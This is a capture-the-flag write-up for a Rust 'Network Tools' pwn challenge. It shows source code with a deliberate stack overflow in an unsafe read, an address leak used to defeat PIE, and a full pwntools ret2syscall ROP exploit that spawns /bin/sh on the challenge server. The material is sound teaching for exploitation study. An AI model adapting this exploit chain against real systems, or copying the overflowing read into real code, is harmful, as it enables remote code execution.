

# Network Tools
**Points: 100**

**Category: Pwn**
> Network analysis is essential these days. That’s why I created this toolbox for multi-purpose analysis!
> 
> Author: Johnathan
> 
> ```bash
> nc chals.sekai.team 4001
> ```

In this challenge we are provided with the source code, `main.rs`, and a binary `nettools`. Rust is usually pretty secure against most binary vulnerabilities, but this protection goes away if we use `unsafe`, so we should try to look for any suspicious uses of `unsafe` in the source code.

First, let's look at what kind of binary `nettools` is:
```bash
$ pwn checksec nettools 
[*] 'nettools'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's take a look at the source code first:
```rust
use std::io::{self, Write, Read};
use dns_lookup::{lookup_host, lookup_addr};
use std::net::Ipv4Addr;
use std::process::Command;
use std::str;
use std::string::String;

static mut CHOICE: i32 = 0;

fn read(arr: &mut[u8], size: isize) -> isize{
    let arr_ptr = &mut arr[0] as *mut u8;
    let mut count = 0;
    unsafe{
        let mut input: [u8;1] = [0;1];
        for i in 0..size {
            io::stdin().read_exact(&mut input).expect("msg");
            if input[0] == 0xa {
                break;
            }
            *arr_ptr.offset(i) = input[0];
        }

        while *arr_ptr.offset(count) != 0{
            count+=1;
        }
    }
    count
}

fn menu(){
    println!("1. ping");
    println!("2. traceroute");
    println!("3. IP lookup");
    println!("4. Reverse IP lookup");
    println!("5. Exit");
    print!("> ");
    io::stdout().flush().unwrap();
}

fn ping(){
    let mut input: String = String::new();
    print!("IPv4: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut input).expect("Failed to read IP");
    match input.trim().parse::<Ipv4Addr>() {
        Ok(ip) => {
            let cmd = format!("ping {} -w 4", ip.to_string());
            let process = Command::new("/bin/sh")
                                .arg("-c")
                                .arg(cmd)
                                .output()
                                .expect("Failed");
            println!("{}", String::from_utf8_lossy(&process.stdout));
        }
        _ => {
            println!("Invalid IPv4 format!");
            return;
        },
    };
}

fn traceroute(){
    let mut input: String = String::new();
    print!("IPv4: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut input).expect("Failed to read IP");
    match input.trim().parse::<Ipv4Addr>() {
        Ok(ip) => {
            let cmd = format!("traceroute {}", ip.to_string());
            let process = Command::new("/bin/sh")
                                .arg("-c")
                                .arg(cmd)
                                .output()
                                .expect("Failed");
            println!("{}", String::from_utf8_lossy(&process.stdout));
        }
        _ => {
            println!("Invalid IPv4 format!");
            return;
        },
    };
}

fn ip_lookup(){
    let mut input: [u8; 400] = [0; 400];

    print!("Hostname: ");
    io::stdout().flush().unwrap();
    let size = read(&mut input, 0x400);
    let (hostname, _) = input.split_at(size as usize);
    let hostname = str::from_utf8(hostname).expect("msg").to_string();
    // println!("{:?}", hostname.trim());
    match lookup_host(hostname.trim()) {
        Ok(ip) => println!("{:?}", ip),
        _ => println!("Invalid domain name!")
    }
}

fn reverse_ip_lookup(){
    let mut ip_str: String = String::new();

    print!("IP: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut ip_str).expect("Failed to read IP");
    
    match ip_str.trim().parse::<std::net::IpAddr>() {
        Ok(ip) => {
            match lookup_addr(&ip) {
                Ok(hostname) => println!("{}", hostname),
                _ => println!("Invalid IP!")
            }
        },
        _ => {
            println!("Invalid IP format!");
            return;
        }
    }
}

fn main(){
    unsafe {
        let mut input = String::new();

        println!("**************************");
        println!("*                        *");
        println!("*     Network Tools      *");
        println!("*                        *");
        println!("**************************");
        println!("Opss! Something is leaked: {:p}", &CHOICE);
        loop {
            menu();

            input.clear();
            io::stdin().read_line(&mut input).expect("Failed to readline!");
            CHOICE = match input.trim().parse() {
                Ok(num) => num,
                _ => 0
            };
            match CHOICE {
                1 => ping(),
                2 => traceroute(),
                3 => ip_lookup(),
                4 => reverse_ip_lookup(),
                5 => break,
                _ => println!("Invalid choice!")
            }
        }
    }
}
```
Two uses of `unsafe` stand out here:
1. There's a big `unsafe` block in the `read()` function. It seems to be operating on raw bytes without any of the safety limitations of safe Rust. Upon further inspection, we can see that it indiscriminately reads in bytes, even if it will go past the actual boundaries of the array. Maybe this will cause a buffer overflow later on? Since there's no stack canary on the binary, this is possible.
2. In the `main()` function, there's also an `unsafe` block. However, most of the code seems safe, with the exception of the line where it gives us a leak of the address of a variable. Since that variable is global, which makes it stored in `.bss`, it could help us with bypassing the PIE restrictions.

If we look at where `read()` is used, we can see that the only place it's called is in `ip_lookup()`:
```rust
fn ip_lookup(){
    let mut input: [u8; 400] = [0; 400];

    print!("Hostname: ");
    io::stdout().flush().unwrap();
    let size = read(&mut input, 0x400);
    let (hostname, _) = input.split_at(size as usize);
    let hostname = str::from_utf8(hostname).expect("msg").to_string();
    // println!("{:?}", hostname.trim());
    match lookup_host(hostname.trim()) {
        Ok(ip) => println!("{:?}", ip),
        _ => println!("Invalid domain name!")
    }
}
```
Here, we can see that it's reading in 0x400 bytes when the buffer is only 400 bytes. Since 0x400 is a lot bigger than 400, we probably have a stack overflow here.
Let's disassemble this binary with BinaryNinja to confirm. 

Since the stack frame is only 0x348 bytes, and we can write a total of 0x400 bytes, we can easily overflow the buffer.

But if we just try to overflow the buffer, a strange assertion fails in the middle of the program. This is because the count that the `read` function returns goes over the original length, and we have to insert a null byte to prevent this from being a problem.

However, there's no `win` function, and it probably isn't realistic to piggyback off an existing Rust function due to how complicated they are. So the most realistic option here is to just do a standard ROP to a syscall, and get a shell with that.

If we run `ROPgadget --binary nettools`, we can indeed find a lot of gadgets (in fact, there are 25780 in total). 
We need to control `rax`, `rdi`, `rsi`, and `rdx`. Let's see how many pop gadgets we can find:

- There is a `pop rax; ret` gadget 
- There is a `pop rdi; ret` gadget 
- There is a `pop rsi; ret` gadget 
- There is a `syscall` gadget

For some reason there isn't a `pop rdx` gadget that is standalone in the binary. However, there is a `mov rdx, rsi; ret` gadget, which works as well.

I also couldn't find a raw `mov [first_register], second_register; ret` gadget to control memory, but there was a `mov [rax+0x10], rsi; ret` gadget, which shouldn't be a problem as long as we adjust the address we put in `rax`.

From here on, it's a standard ret2syscall ROP chain:
```python
from pwn import *
context(arch='amd64', os='linux')
e = ELF('./nettools')
#r = process('./nettools')
r = remote('chals.sekai.team', 4001)
r.recvuntil(b': ')
leak = int(r.recvline().decode().strip()[2:], 16)
e.address = leak - e.symbols['_ZN8nettools6CHOICE17h0d0daa1684b4400fE']
r.sendline(b'3')
payload = bytearray(b'a'*(0x348-0x60))
payload[400-1] = 0x0 # make sure counted length doesn't go over 400
rop = ROP(e)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
mov_rdx = e.address+0x000000000005f28e # for some reason it can't auto find this?
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
write_mem = e.address+0x0000000000056d37 # this one glitches too for some reason
syscall = rop.find_gadget(['syscall'])[0]
payload += p64(pop_rsi) + b'/bin/sh\x00' + p64(pop_rax) + p64(e.bss(0x00) - 10 - 6) + p64(write_mem)
payload += p64(pop_rax) + p64(0x3b) + p64(pop_rdi) + p64(e.bss(0x00)) + p64(pop_rsi) + p64(0) + p64(mov_rdx) 
payload += p64(syscall)
r.sendline(payload)
r.interactive()
```
Then, we get a shell, and then we get the flag!

